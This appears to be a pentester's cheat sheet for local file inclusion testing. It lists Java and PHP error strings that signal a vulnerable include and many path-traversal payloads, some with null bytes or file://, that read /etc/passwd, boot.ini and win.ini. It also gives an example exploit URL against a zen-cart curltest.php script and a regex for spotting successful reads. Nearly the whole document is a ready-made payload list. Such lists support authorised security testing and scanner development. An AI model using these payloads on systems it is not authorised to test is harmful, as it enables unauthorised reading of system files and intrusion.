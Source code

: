 ### LFI 

#### Errors:
```
Detect Payload: abc.txt
```

##### Java Errors:
```
java.io.FileNotFoundException
java.lang.Exception
java.lang.IllegalArgumentException
java.net.MalformedURLException
```
##### PHP Errors:
```
fread\\(\\)
for inclusion \'\\(include_path=
Failed opening required
<b>Warning</b>:  file\\('
<b>Warning</b>:  file_get_contents\\('
open_basedir restriction in effect
```

##### Unix Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd
../../../../../../../../../../../../../../../etc/passwd
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.html
/etc/passwd
```

another type of LFI http://website/zen-cart/extras/curltest.php?url=file:///etc/passwd
```
file:///etc/passwd
/etc/passwd%00
/etc/passwd%00.html
/etc/passwd%00.ext
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.ext
```

##### Windows Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini
../../../../../../../../../../../../../../../boot.ini
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00.html
C:\\boot.ini
C:\\boot.ini%00
C:\\boot.ini%00.html
%SYSTEMROOT%\\win.ini
%SYSTEMROOT%\\win.ini%00
%SYSTEMROOT%\\win.ini%00.html
file:///C:/boot.ini
file:///C:/win.ini
C:\\boot.ini%00.ext
%SYSTEMROOT%\\win.ini%00.ext
```
search in response 
##### Regexp:
```
root:x|for 16-bit app support|boot loader
```
Payloads:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders



